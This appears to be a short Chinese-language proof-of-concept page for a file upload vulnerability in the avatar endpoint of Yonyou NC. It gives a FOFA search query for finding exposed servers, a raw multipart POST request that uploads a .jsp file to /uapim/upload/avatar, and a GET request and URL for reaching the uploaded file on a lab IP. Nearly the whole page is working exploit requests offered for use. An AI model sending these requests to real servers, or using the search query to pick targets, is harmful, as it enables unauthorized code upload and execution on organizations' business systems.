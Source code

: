 ## 用友NC-avatar接口存在文件上传漏洞

## fofa
```
body="/Client/Uclient/UClient.exe"
```

## poc
```
POST /uapim/upload/avatar?usercode=1&fileType=jsp HTTP/1.1
Host: 192.168.63.129:8088
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEXmnamw5gVZG9KAQ
User-Agent: Mozilla/5.0 

------WebKitFormBoundaryEXmnamw5gVZG9KAQ
Content-Disposition: form-data; name="file"; filename="111.jsp"
Content-Type: application/octet-stream

3999
------WebKitFormBoundaryEXmnamw5gVZG9KAQ--
```

![image](https://github.com/wy876/POC/assets/139549762/3776732e-df39-4d9e-9f6b-1ffcbd7c2d11)


文件上传路径

![image](https://github.com/wy876/POC/assets/139549762/c6a16b38-752c-4a54-88a4-a04b88109145)

```
GET /uapim/static/pages/photo/1/1.1713358789182.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 6.3; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/41.0.2226.0 Safari/537.36
Connection: close
Accept-Encoding: gzip, deflate, br
```

![image](https://github.com/wy876/POC/assets/139549762/b6abe3ba-35e6-410a-a265-9b2e57d7d922)

`http://192.168.63.129:8088/uapim/static/pages/photo/1/1.1713358789182.jsp`
